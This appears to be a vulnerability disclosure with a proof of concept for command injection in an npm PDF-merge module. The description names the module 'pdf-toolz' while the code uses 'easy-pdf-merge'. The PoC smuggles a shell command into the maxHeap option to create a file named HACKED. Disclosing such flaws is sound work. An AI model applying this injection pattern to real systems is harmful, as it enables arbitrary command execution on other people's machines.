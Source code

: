 # Description

The `pdf-toolz` module is vulnerable against `arbitrary command injection` due to the fact some `inputs` given by the `user` are unsafely processed and executed.

# POC

1. Create the following PoC file:

```js
// poc.js
const merge = require('easy-pdf-merge');

merge(["test", "test1"], "test2", {maxHeap:"test; touch HACKED; #"}, function(err){
  if(err) {
    return console.log(err)
  }
  console.log('Success')
});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i easy-pdf-merge # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
